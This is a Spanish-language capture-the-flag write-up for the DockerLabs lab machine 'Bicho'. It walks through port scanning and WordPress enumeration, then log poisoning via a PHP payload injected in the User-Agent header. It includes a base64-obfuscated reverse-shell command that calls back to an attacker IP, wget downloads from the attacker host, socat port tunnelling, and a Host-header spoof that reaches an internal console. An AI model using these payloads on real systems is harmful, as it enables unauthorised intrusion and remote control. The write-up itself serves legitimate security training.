# 🧠 **Informe de Pentesting – Máquina: Bicho**

### 💡 **Dificultad:** Fácil

📦 **Plataforma:** DockerLabs

🌐 **Objetivo:** Obtener acceso total (root) explotando servicios expuestos y configuraciones inseguras en una instalación de WordPress.

---

## 🚀 **Despliegue de la Máquina**

Se inicia la máquina vulnerable descomprimiendo el archivo y ejecutando el script de despliegue:

```bash
unzip bicho.zip
sudo bash auto_deploy.sh backend.tar
```



---

## 📶 **Comprobación de Conectividad**

Validamos que la máquina responde:

```bash
ping -c1 172.17.0.2
```



---

## 🔍 **Escaneo de Puertos**

### 🔎 Escaneo Total

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

**Puertos abiertos:**

* `22/tcp`: SSH
* `80/tcp`: HTTP



### 🧩 Detección de Servicios

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```



---

## 🧭 **Reconocimiento Web**

### 🖥️ Acceso inicial

Al acceder a `http://172.17.0.2`, se muestra una página de bienvenida.



### 🧾 Hosts

Agregamos el nombre de dominio al archivo `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Añadir línea:
172.17.0.2 bicho.dl
```



---

### 🔎 Análisis con WhatWeb

```bash
whatweb http://bicho.dl
```

Detectamos que el sitio corre **WordPress 6.6.2**.



---

## 🛠️ **Enumeración en WordPress**

### 🔍 WPScan

Enumeramos usuarios y directorios:

```bash
wpscan --url http://bicho.dl/ --enumerate u
```

* Usuario encontrado: `bicho`
* Archivos sensibles y rutas descubiertas



---

### 🗂️ Fuzzing de Directorios

```bash
gobuster dir -u http://bicho.dl/wp-content/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

**Rutas encontradas:**

* `/index.php`
* `/themes/`
* `/uploads/`
* `/plugins/`
* `/fonts/`
* `/upgrade/`



---

## 🕵️‍♂️ **Log Poisoning en WordPress**

### 🐾 Archivo sospechoso

Durante el escaneo detectamos `debug.log`:

```bash
http://bicho.dl/wp-content/debug.log
```



---

### 🐚 Inyección vía User-Agent

Interceptamos el login con Burp Suite y lo mandamos a **Repeater**.



Modificamos la cabecera:

```
User-Agent: <?php phpinfo(); ?>
```



---

### 💥 Ejecución exitosa

Al visitar de nuevo el archivo `debug.log`, vemos la ejecución de `phpinfo()`:



---

## 🐍 **Obteniendo Reverse Shell**

### 🧨 Inyección de Payload

Escuchamos con Netcat:

```bash
sudo nc -lvnp 443
```

Y enviamos este payload en User-Agent:

```php
<?php echo `printf c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjg0LzQ0MyAwPiYx | base64 -d | bash`; ?>
```

📌 *Este código inyecta un comando que conecta de vuelta al atacante.*



---

## 🔐 **Post-Explotación y Escaneo Interno**

### 🧾 Puertos internos

```bash
netstat -tuln
```

```text
127.0.0.1:3306    → MySQL  
127.0.0.1:5000    → Web Interno  
```

---

## 🔁 **Tunelización de Puertos con Socat**

### 🚫 Error inicial

`socat` no está disponible y al transferirlo, aparece un error de librería:

```bash
./socat: error while loading shared libraries: libwrap.so.0
```

---

### ✅ Solución

1. **Transferir socat y la librería:**

```bash
# En máquina atacante
cp /usr/bin/socat .
cp /usr/lib/x86_64-linux-gnu/libwrap.so.0 .
python3 -m http.server 8000
```

2. **En la víctima:**

```bash
wget http://<IP>:8000/socat
wget http://<IP>:8000/libwrap.so.0 -O /tmp/libwrap.so.0
chmod +x socat
export LD_LIBRARY_PATH=/tmp
```

3. **Tunelizar:**

```bash
./socat TCP-LISTEN:7755,fork TCP:127.0.0.1:5000
```




---

## 🌐 **Exploración del Servicio Interno**

Visitamos:

```
http://172.17.0.2:7755/
```

¡Y accedemos a la web interna!



---

### 📂 Fuzzing interno

```bash
gobuster dir -u http://172.17.0.2:7755/ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

📌 Ruta importante encontrada: `/console`



---

### 🧪 Interacción con Burp Suite

Usamos Burp para modificar el `Host` en la cabecera y acceder correctamente a `/console`:

Original:

```
Host: 172.17.0.2:7755
```

Modificado:

```
Host: 127.0.0.1
```

Esto permite visualizar la consola de administración interna protegida.

---

